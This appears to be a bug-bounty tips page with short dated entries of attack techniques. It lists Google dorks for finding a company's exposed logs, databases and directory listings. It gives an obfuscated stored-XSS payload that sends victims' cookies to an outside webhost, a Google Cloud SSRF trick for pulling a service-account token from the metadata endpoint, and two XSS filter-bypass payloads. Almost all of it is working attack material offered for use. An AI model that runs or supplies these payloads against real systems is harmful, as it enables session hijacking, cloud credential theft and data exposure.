📅 20-Dec-2020
## Useful Google Dorks
```text
site:https://repl.it/ intext:company
site:https://zoom.us/ inurl:company
site:https://www.atlassian.com inurl:company
site:https://aws.amazon.com/s3/ inurl:company
site:https://pastebin.com/ inurl:company
site:https://company.com intitle:Index of
site:https://company.com ext:log
site:https://company.com inurl:redir | inurl:redirect | inurl:return | inurl:to
site:https://company.com ext:doc | ext:docx | ext:odt | ext:pd
site:https://company.com ext:sql
```

## Stored XSS
Use this payload as file name by using Proxy programs
```js
 \"><img src=1 onerror=\"url=String['fromCharCode'](104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61)+encodeURIComponent(document['cookie']);xhttp= new XMLHttpRequest();xhttp['open']('GET',url,true);xhttp['send']();
 ```
 
[Reference](https://hackerone.com/reports/1010466)

📅 28-Dec-2020
## Google Cloud SSRF
If you can't add "Metadata-Flavor: Google" to your Google Cloud SSRF request, you can use the "v1beta1" endpoint. "v1" and "v1beta1" endpoints contain the same GCP token.

```text
"http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json"
```
[![img](https://pbs.twimg.com/media/Ep7WuzUXIAIhjDC?format=jpg&name=4096x4096)](https://twitter.com/bugbountynights/status/1341748041192239105?s=20)

## Stored xss and payload to bypass their rules was

```js
"><img src=x ononerrorerror=confirm`ohhBoiii`>
```

## Java portlet input, non-valid char in encoded char becomes zero.

```js
<Svg%K9OnLoad=%7Krompt%6K1%6K>
```
[![img](https://pbs.twimg.com/media/EqFcIxBXUAAyzUL?format=jpg&name=small)](https://twitter.com/brutelogic/status/1342458411225636870?s=20)
